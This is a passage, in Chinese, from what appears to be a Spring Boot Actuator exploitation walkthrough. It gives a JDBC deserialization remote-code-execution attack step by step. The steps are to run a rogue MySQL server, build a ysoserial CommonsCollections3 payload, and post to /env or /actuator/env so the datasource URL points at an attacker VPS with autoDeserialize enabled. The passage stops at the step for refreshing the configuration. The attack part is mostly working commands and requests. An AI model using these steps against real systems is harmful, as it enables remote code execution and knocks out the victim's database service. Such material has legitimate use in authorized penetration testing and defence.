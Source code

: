 搜索 `spring.datasource.url` 关键词，记录下其 `value` 值，方便后续恢复其正常 jdbc url 值。

##### 步骤二：架设恶意 rogue mysql server

在自己控制的服务器上运行 springboot-jdbc-deserialization-rce.py 脚本，并使用 ysoserial 自定义要执行的命令：

```
java -jar ysoserial.jar CommonsCollections3 calc > payload.ser

```

在脚本同目录下生成 `payload.ser` 反序列化 payload 文件，供脚本使用。

##### 步骤三：设置 spring.datasource.url 属性

> ⚠️ 修改此属性会暂时导致网站所有的正常数据库服务不可用，会对业务造成影响，请谨慎操作！

mysql-connector-java 5.x 版本设置属性值为：

```
jdbc:mysql://your-vps-ip:3306/mysql?characterEncoding=utf8&useSSL=false&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true


```

mysql-connector-java 8.x 版本设置属性值为：

```
jdbc:mysql://your-vps-ip:3306/mysql?characterEncoding=utf8&useSSL=false&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true


```

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.datasource.url=对应属性值


```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.datasource.url","value":"对应属性值"}


```

##### 步骤四：刷新配置
